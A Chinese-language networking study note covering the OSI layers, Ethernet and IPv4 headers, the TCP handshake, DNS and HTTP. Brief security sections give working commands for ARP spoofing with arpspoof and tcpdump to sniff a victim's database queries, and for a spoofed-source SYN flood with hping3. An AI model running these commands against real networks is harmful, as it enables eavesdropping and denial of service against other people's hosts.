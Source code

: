 # Internet

#### 作者: YuJian

<img src="https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fjordanjack.com%2Fpub%2Fstatic%2Ffrontend%2FBML%2Fdefault%2Fen_US%2Fimages%2Flogos%2Finternet-explorer.jpg&refer=http%3A%2F%2Fjordanjack.com&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=jpeg?sec=1620961953&t=2c02ef4be1e648b9dab13fa81ab0c989" alt="ie_icon" width="150px" />


# Internet 是什麼



​	互联网（internet），又称国际网络，指的是网络与网络之间所串连成的庞大网络，这些网络以一组通用的协议相连，形成逻辑上的单一巨大国际网络。

​	互联网始于1969年美国的阿帕网 (arpanet)。通常internet泛指互联网，而Internet则特指因特网。这种将计算机网络互相联接在一起的方法可称作“网络互联”，在这基础上发展出覆盖全世界的全球性互联网络称互联网，即是互相连接一起的网络结构。互联网并不等同万维网，万维网只是一建基于超文本相互链接而成的全球性系统，且是互联网所能提供的服务其中之一。




# 互联网、因特网、万维网三者的关系：



​	互联网包含因特网，因特网包含万维网，凡是能彼此通信的设备组成的网络就叫互联网。所以，即使仅有两台机器，不论用何种技术使其彼此通信，也叫互联网。国际标准的互联网写法是Internet，因特网是互联网的一种。因特网可不是仅有两台机器组成的互联网，它是由上千万台设备组成的互联网。

因特网使用 TCP/IP 协议让不同的设备可以彼此通信。但使用 [TCP/IP 协议](#tcp)的网络并不一定是因特网，一个局域网也可以使用 TCP/IP 协议。

​	因特网是基于 TCP/IP 协议实现的，TCP/IP 协议由很多协议组成，不同类型的协议又被放在不同的层，其中，位于应用层的协议就有很多，比如FTP、HTTP、SMTP。只要应用层使用的是HTTP协议，就称为万维网（World Wide Web）。之所以在浏览器里输入百度网址时，能看见百度网提供的网页，就是因为您的个人浏览器和百度网的服务器之间使用的是 [HTTP 协议](#http) 在交流。



# 网络体系结构



  1. **物理层**：提供透明的比特流传输,单位为比特。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/02/a.md)


  2. **数据链路层**：原始的传输线路变成逻辑传输线路，数据单位上帧。物理链路加上必要的通信协议而组成的逻辑链路。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/03/a.md)

     MAC

     MAC子层的主要功能包括数据帧的封装/卸装、帧的寻址和识别、帧的接收与发送、链路的管理、帧的差错控制。MAC层的主要访问方式有CSMA/CD、令牌环和令牌总线三种。以太网中的MAC帧格式如下：

     | 7        | 1（帧起始固定格式10101011） | 6        | 6      | 2    | 0~1500（IP数据报） | 0~46 | 4      |
     | -------- | --------------------------- | -------- | ------ | ---- | ------------------ | ---- | ------ |
     | 前导字段 | 帧起始符                    | 目的地址 | 源地址 | 类型 | 数据               | 填充 | 校验和 |

     主要協議有ARP、RARP

     ARP（Address Resolution Protocol）是根据 IP 地址获取物理地址的一个 TCP/IP 协议

     安全方面 : **ARP spoofing**

     驗證 : 使用攻擊主機 ip1 ,網關 ip0 ,被攻擊主機 ip2

     攻擊主機: 

     ```shell
     arpspoof -i eth0 -t ip2 ip0
     ```

     被攻擊主機:

     連接遠程數據庫,使用查詢語句

     攻擊主機: 

     ```shell
     tcpdump tcp port 本地連接端口 and host ip2 -s 0 -w a.cap
     ```

     解析 a.cap 包,可以監聽到攻擊主機向遠端發送的查詢語句

     

  3. **网络层**：主要功能是提供路由选择。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/04/a.md)

     网络层的主要协议有ICMP、IP、IGMP

     IPv4头部结构:
     
     **IP协议**

   | 0                    | 4        | 8        | 16       | 19       | 24   | 31   |
   | -------------------- | -------- | -------- | -------- | -------- | ---- | ---- |
   | 版本                 | 头部长度 | 服务类型 | 总长度   |          |      |      |
   | 标识符               |          |          | 标记     | 分片偏移 |      |      |
   | 生存时间             |          | 协议     | 头部校验 |          |      |      |
   | 源地址               |          |          |          |          |      |      |
   | 目标地址             |          |          |          |          |      |      |
   | 可选字段（长度可变） |          |          |          |          | 填充 |      |
   | 数据部分             |          |          |          |          |      |      |

     ![image-20210513010843013](./img\image-20210513010843013.png)

  4. **传输层**：传输层利用实现可靠的端到端数据传输，能实现分段，传输和组装。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/05/a.md)

     传输层的主要协议有 UDP、TCP

     TCP与UDP不同，它是基于连接的，也就是说：为了在服务端和客户端之间传送TCP数据，必须先建立一个虚拟链路，也就是TCP连接，建立TCP连接的标准过程是这样的：

     首先，请求端（客户端）发送一个包含SYN标志的TCP报文，SYN即同步（Synchronize），同步报文会指明客户端使用的端口以及TCP连接的初始序号；
     第二步，服务器在收到客户端的SYN报文后，将返回一个SYN+ACK的报文，表示客户端的请求被接受，同时TCP序号被加1，ACK即确认（Acknowledgment）。
     第三步，客户端也返回一个确认报文ACK给服务器端，同样TCP序列号被加1，到此一个TCP连接完成。

     安全方面 : **SYN Flooding攻击**

     驗證 : 使用攻擊主機 ip1 ,網關 ip0 ,被攻擊主機 ip2

     攻擊主機: 

     ```shell
     hping3 -q -n -a 2.2.2.2 -S -s 53 --keep -p 445 --flood 192.168.73.138
     ```

     被攻擊主機:

     ```shell
     windump -i 物理端口 -s 0 -w a.cap
     ```

     

  5. **会话层**：允许不同机器上的用户之间建立会话。

  6. **表示层**：提供通用的数据描述格式，功能：语法转换，表示，数加密解密，与压缩解压。

  7. **应用层**：向应用程序提供服务。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/06/a.md)

     应用层的主要协议有 Telnet、FTP、SMTP 等


#### 在数据在各层之前传递时的几个概念：
+ 封装：数据在高层向低层传输过程中，每层都对接收的原始数据添加信息，通常加一个包头与报尾。

+ 网络协议：数据交换建立的一系列规则，标准或约定

+ 服务：两个对等实体间通信使得本层能为上层提供服务，要实现本层协议还需要使用下层所提供的服务。

  


# <span id="tcp">TCP/IP协议</span>

TCP/IP（Transmission Control Protocol/Internet Protocol，传输控制协议/网际协议）是指能够在多个不同网络间实现信息传输的协议簇。TCP/IP 协议不仅仅指的是 TCP 和 IP 两个协议，而是指一个由 FTP、SMTP、TCP、UDP、IP等协议构成的协议簇， 只是因为在 TCP/IP 协议中 TCP 协议和IP协议最具代表性，所以被称为 TCP/IP 协议。



# <span id="http">DNS</span>

域名系统（英文：Domain Name System，缩写：DNS）是互联网的一项服务。它作为将域名和IP地址相互映射的一个分布式数据库，能够使人更方便地访问互联网。DNS使用UDP端口53。当前，对于每一级域名长度的限制是63个字符，域名总长度则不能超过253个字符。

安全方面 : **DNS欺騙**

# <span id="http">HTTP协议</span>

超文本传输协议（Hypertext Transfer Protocol，HTTP）是一个简单的请求-响应协议，它通常运行在 TCP 之上。它指定了客户端可能发送给服务器什么样的消息以及得到什么样的响应。请求和响应消息的头以 ASCII 形式给出；而消息内容则具有一个类似 MIME 的格式。这个简单模型是早期 Web 成功的有功之臣，因为它使开发和部署非常地直截了当。[参考](https://gitee.com/yujian19840/http)
